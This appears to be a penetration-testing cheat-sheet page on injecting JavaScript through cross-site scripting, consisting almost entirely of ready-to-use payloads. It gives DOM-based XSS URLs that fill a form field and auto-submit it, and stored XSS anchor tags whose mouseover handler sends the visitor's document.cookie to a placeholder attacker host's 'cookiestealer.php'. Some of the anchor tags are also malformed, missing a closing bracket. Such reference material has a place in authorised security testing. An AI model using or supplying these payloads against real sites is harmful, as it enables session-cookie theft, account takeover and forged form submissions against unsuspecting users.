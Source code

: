 # Inject JavaScript Code

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## XSS DOM Object

```
http[s]://<IP>/index.php?<parameter_id>=<script>window.onload=function(){document.getElementsByName('<html_attribute_field>')[0].innerHTML='XSS is easy!';document.getElementById('<html_ID_attribute>').submit();}</script>

http[s]://<IP>/index.php?page=<script>window.onload=function(){document.getElementsByName('comment')[0].innerHTML='XSS is easy!';document.getElementById('post').submit();}</script>
```

## Stored XSS

```
<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php='+escape(document.cookie)"What is XSS?

<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php?cookie='+escape(document.cookie)"What is XSS?
```

---
## References

- [Hacktricks: XSS (Cross Site Scripting)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

- [Hacktricks: Unicode Injection](https://book.hacktricks.xyz/pentesting-web/unicode-injection)